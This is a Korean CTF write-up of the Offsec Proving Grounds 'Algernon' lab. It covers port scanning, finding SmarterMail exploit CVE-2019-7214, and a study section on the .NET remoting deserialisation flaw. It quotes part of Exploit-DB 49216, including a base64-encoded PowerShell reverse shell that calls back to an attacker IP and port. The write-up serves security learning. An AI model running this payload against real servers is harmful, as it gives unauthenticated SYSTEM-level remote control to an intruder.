 ```yaml
---

title: "Proving grounds Practice: Algernon 문제풀이"

excerpt: "Offsec proving grounds practice windows machine writeup"

categories: pg_practice

tags:

- CTF

- Offsec labs

- OSCP

- Writeup

- Windows

- pg-practice

typora-root-url: ../../

date: 2025-08-29

last_modified_at: 2025-08-29

---
```


  

## RustScan + Nmap
```sh
└─$ rustscan -a 192.168.107.65 --ulimit 5000 -- nmap -sV -sC -Pn -n -oA nmapDetailed
[ . . . ]              
Open 192.168.107.65:21
Open 192.168.107.65:80
Open 192.168.107.65:135
Open 192.168.107.65:139
Open 192.168.107.65:445
Open 192.168.107.65:5040
Open 192.168.107.65:7680
Open 192.168.107.65:9998
Open 192.168.107.65:17001

[ . . . ]        

PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 125 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 08-29-25  12:35AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
9998/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
17001/tcp open  remoting      syn-ack ttl 125 MS .NET Remoting services
[. . . ]

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


## Web
### PORT: 80
![80mainPage](../../images/2025-08-29-algernon/image.png)


### PORT: 9998
![9998LoginPage](../../images/2025-08-29-algernon/image-1.png)

  


## Vulnerability Analysis
```
└─$ searchsploit smartermail   

SmarterMail Build 6985 - Remote Code Execution | windows/remote/49216.py
[ . . . ]

┌──(kali㉿kali)-[~/Desktop/offsec/Algernon]
└─$ searchsploit -m 49216                
```
**CVE-2019-7214**
[49216-Exploit-DB](https://www.exploit-db.com/exploits/49216)




`$ vim 49216`
```python
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
#
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3

import base64
import socket
import sys 
from struct import pack

HOST='192.168.107.65'     // 해당 부분 변경
PORT=17001                // 해당 부분 변경
LHOST='192.168.45.237'    // 해당 부분 변경
LPORT=4444                // 해당 부분 변경

psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')

```

- SmarterMail before build 6985 provides a .NET remoting endpoint, which is vulnerable to a .NET deserialisation attack. -> 포트 스캔으로 현재 대상 호스트에 `17001/tcp open  remoting      syn-ack ttl 125 MS .NET Remoting services` 가동 중인 것을 확인했었다.


## Exploitation
![img](../../images/2025-08-29-algernon/image-2.png)
  


## Privilege Escalation
NT AUTHORITY\SYSTEM 유저의 쉘을 획득했기 때문에 권한 상승을 진행할 필요가 없다.
  

## Study Part - CVE-2019-7214
**CVE-2019-7214** 
- 취약한 소프트웨어: SmarterTools SmarterMail 16.x 버전, 빌드 6985 이전
- 취약점 유형: .NET 객체 역직렬화 취약점 (Deserialization of Untrusted Data)
- 취약점 위치: SmarterMail이 사용하는 .NET Remoting Endpoint (기본 포트 17001)
- 취약점 설명:
  - 외부에서 역직렬화할 때 신뢰하지 않은 데이터가 처리되면서 임의의 코드를 실행할 수 있음
  - 인증이 필요 없으며, 공격자가 원격에서 서버 권한으로 명령어를 실행 가능
  - 공격 성공 시 NT AUTHORITY\SYSTEM 권한으로 완전한 서버 제어 가능
- 공격 경로
  - SmarterMail 서버의 17001 포트 (/Servers, /Mail, /Spool) 접근 통로를 통해 .NET 바이너리 포맷 데이터를 역직렬화하는 과정에서 발생
  - 이 포트를 원격에서 노출한 경우 큰 위험
- 영향
  - 원격 인증 없이 시스템 권한이 탈취될 수 있음